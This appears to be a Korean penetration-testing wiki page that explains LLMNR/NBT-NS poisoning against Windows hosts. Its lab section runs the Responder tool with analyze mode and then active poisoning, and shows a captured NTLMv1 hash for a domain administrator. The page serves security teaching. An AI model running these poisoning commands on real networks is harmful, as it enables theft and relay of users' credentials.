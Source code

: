 # LLMNR/NBT-NS 포이즈닝

LLMNR/Nbt-NS Poisoning (포이즈닝) - 피해자 호스트의 이름 변화 LLMNR/Nbt-NS 브로드캐스트 요청을 받았을 때 공격자가 LLMNR/Nbt-NS 브로드캐스트 요청에 대답하는 공격이다. 피해자 호스트는 공격자 호스트를 자신이 찾던 호스트로 착각하게 되어 Net-NTLM 인증 트래픽을 공격자에게 보낸다. &#x20;

### 개념

윈도우 워크스테이션과 서버 운영체제에는 LLMNR (Link-Local Multicast Name Resolution)과 Nbt-NS (Netbios Name Service) 라는 레거시 브로드캐스트 (broadcast) 이름 변환 (Name Resolution) 서비스들이 존재한다. 윈도우에서 HTTP나 내부망 쉐어, IP 주소등을 검색하거나 접근하려고 한다면 다음과 같은 우선순위를 기반으로 이름 변환을 시도한다.&#x20;

1. IPv6 - DNS &#x20;
2. IPv4 - DNS&#x20;
3. LLMNR, Nbt-NS, mDNS 등의 레거시 브로드캐스트 이름 변환 서비스 &#x20;

예를 들어 윈도우에서 쉐어를 찾으려고 탐색기에서 `\\fileserver.choi.local\share` 를 검색하려다가 실수로 `\\wronghost.choi.local\share` 를 검색했다고 가정해보자. 그렇다면 현재 호스트는 IPv6 -> IPv4 -> LLMNR, Nbt-NS, mDNS 등의 순서대로 이 호스트를 찾으려고 한다.&#x20;

![IPv4 -> Nbt-NS, mDNS, LLMNR](<../.gitbook/assets/image (2) (1).png>)

### 문제점&#x20;

문제는 LLMNR, Nbt-NS, mDNS 가 옛날에 만들어진, 보안을 생각하지 않고 만든 브로드캐스트 기반의 이름 변환 프로토콜이라는 것이다. 브로드캐스트이기 때문에 같은 서브넷내의 모든 호스트들이 "wronghost.choi.local 이신 호스트 대답 좀 해주세요" 라는 요청을 듣게 된다.&#x20;

레거시 브로드캐스트 프로토콜들은 호스트/사용자 인증을 거치지 않기 때문에 공격자 호스트가 "wronghost.choi.local 찾으세요? 그거 저니까 저한테 사용자 인증 트래픽 보내주세요" 라고 대답할 때 피해자 호스트는 아무런 의심을 하지 않고 Net-NTLM 인증 트래픽을 공격자에게 보내게 된다.&#x20;

### 공격

LLMNR/Nbt-NS 포이즈닝 공격을 통해 피해자 호스트로부터 받은 Net-NTLM 사용자 인증 트래픽은 다음과 같은 공격에 사용된다.&#x20;

* NTLM 다운그레이드 공격 - Net-NTLMv1을 요청하거나 받은 Net-NTLMv1을 암호학적 공격으로 NTLM 해시로 다운그레이드 한 뒤 크래킹하는 공격&#x20;
* NTLM 릴레이 공격 - 받은 Net-NTLM 인증 트래픽을 다른 호스트에게 릴레이 하는 공격&#x20;
* RBCD (Resource Based Constrained Delegation) - TODO&#x20;

LLMNR/Nbt-NS 포이즈닝과 NTLM 릴레이 공격을 하면 피해자 호스트에서 피해자 유저의 사용자 NTLM 인증 트래픽을 SMB 프로토콜 기반의 Net-NTLMv1 혹은 Net-NTLMv2 형식으로 받을 수 있다. 이 사용자 인증 트래픽은 위 공격들에 사용되며, 해당 공격들은 다른 페이지에 따로 서술한다.&#x20;

### 전제 조건

* 현재 서브넷과 DNS로 이름 변환이 불가능한 호스트의 서비스 (대부분 SMB) 를 이용하려 피해자 호스트에서 피해자 유저가 검색한다.&#x20;
  * 실수로 오타 (ex. flieserver), 옛날에 만들어뒀던 scheduled task, 호스트 이름이 바뀌었을 때, 등
* 피해자 호스트가 LLMNR/Nbt-NS 를 사용하도록 설정되어 있다 (윈도우 비스타 이후 기본적으로 활성화되어 있다).&#x20;

### 실습&#x20;

Responder 툴을 이용해 서브넷에서 LLMNR, Nbt-NS, mDNS 트래픽을 수동적으로 듣고만 있는다&#x20;

```
# "Analyze" 모드를 이용, 포이즈닝을 하지않고 트래픽만 확인 
python3 Responder.py -I eth1 -v -A 

<...>
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[Analyze mode: NBT-NS] Request by ::ffff:192.168.40.150 for wronghost, ignoring 
[Analyze mode: LLMNR] Request by ::ffff:192.168.40.150 for wronghost, ignoring
```

트래픽을 듣고 있으니`192.168.40.150` 호스트가 Nbt-NS와 mDNS를 이용해 `wronghosts.local` 이라는 호스트를 찾고 있다.&#x20;

이제 능동적으로 포이즈닝 공격을 진행해 피해자 호스트로부터 NTLM 사용자 인증 트래픽을 받아온다.

```
# ESS (SSP) 해제 시도와 함께 포이즈닝 공격 시작 
python3 Responder.py -I eth1 -v --disable-ess

<...>
[*] [MDNS] Poisoned answer sent to fe80::c092:c261:488a:c15c for name wronghost.local
[*] [LLMNR]  Poisoned answer sent to ::ffff:192.168.40.150 for name wronghost 
[SMB] NTLMv1-SSP Client   : fe80::c092:c261:488a:c15c                                                            
[SMB] NTLMv1-SSP Username : CHOI\Administrator                                                                   
[SMB] NTLMv1-SSP Hash     : Administrator::CHOI:06B1649C5 <...>
```

피해자 호스트 `192.168.40.150` 가 `wronghost.local` 이 공격자 호스트인줄 알고 NTLM 사용자 인증을 보내왔다. 이제 이 Net-NTLMv1 해시를 가지고 NTLM 릴레이, 다운그레이드, RBCD 공격을 할 수 있게 됐다.&#x20;

